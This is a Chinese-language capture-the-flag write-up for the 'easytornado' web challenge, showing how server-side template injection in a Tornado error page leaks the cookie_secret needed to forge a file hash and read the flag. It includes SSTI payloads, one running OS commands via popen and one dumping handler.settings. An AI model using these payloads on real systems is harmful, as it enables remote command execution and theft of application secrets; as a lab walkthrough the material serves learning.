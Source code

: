 # easytornado
## 题目描述
Tornado 框架
## 思路
http://220.249.52.133:41546  
点开题目链接，发现有三个超链接：  
![avatar](./picture/easytornado_1.png)  
都点进去看看：  
http://220.249.52.133:41546/file?filename=/flag.txt&filehash=de05020c8343288daa209a2c1f0af8be  
![avatar](./picture/easytornado_2.png)  
http://220.249.52.133:41546/file?filename=/welcome.txt&filehash=efdfa0b4308222a125b3f178c226157d  
![avatar](./picture/easytornado_3.png)  
http://220.249.52.133:41546/file?filename=/hints.txt&filehash=2095c3a7b916ef41046f3870a6a1dccd  
![avatar](./picture/easytornado_4.png)  
根据 url 的规律和每个文件中的提示，我们可以知道，最终的 flag 是在 /fllllllllllllag 这个文件中，而访问这个文件同时需要一个 filehash，这个 filehash 是由 md5(cookie_secret+md5(filename)) 算法算出来的。几经周折，没有找到 cookie_secret。
那我们先不带 filehash 访问一下 /fllllllllllllag 这个文件：  
http://220.249.52.133:41546/file?filename=/fllllllllllllag  
页面跳出 Error 且链接自动修改为：  
http://220.249.52.133:41546/error?msg=Error  
从网上找了个提示，说是，/error?msg=Error 可能是服务端模板注入攻击（SSTI）的标志，因此尝试一下：  
http://220.249.52.133:41546/error?msg=Error{{ config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read() }}  
出现了 ORZ 的页面，那大概率是存在服务端模板注入攻击（SSTI），因此，我们的目标就变为了，利用服务端模板注入攻击（SSTI）去寻找 cookie_secret。  
查了一下，cookie_secret 在 application 对象中的 settings 属性中，还发现 self.application.settings 有一个别名：RequestHandler.settings。  
handler 指向的处理当前这个页面的 RequestHandler 对象， RequestHandler.settings 指向 self.application.settings， 因此 handler.settings 指向 RequestHandler.application.settings。  
***
有个问题，为什么用 RequestHandler.application.settings 不对？即构造如下 url：http://220.249.52.133:41546/error?msg=Error{{ RequestHandler.application.settings }}
是错误的。
***
因此，构造 payload：  
http://220.249.52.133:41546/error?msg=Error{{ handler.settings }}  
![avatar](./picture/easytornado_5.png)  
再利用在线工具，计算 filehash，首先计算 /fllllllllllllag 的 md5 的值：  
3bf9f6cf685a6dd8defadabfb41a03a1  
然后与 cookie_secret 拼接：  
bbc9b9eb-708e-425a-b665-1d03d4d225503bf9f6cf685a6dd8defadabfb41a03a1  
再次计算 md5 的值，即为 filehash：  
e54f2ee88c30cf7b0b6c7348469867cb  
因此，构造 url：  
http://220.249.52.133:41546/file?filename=/fllllllllllllag&filehash=e54f2ee88c30cf7b0b6c7348469867cb  
![avatar](./picture/easytornado_6.png)  
得到 flag。  

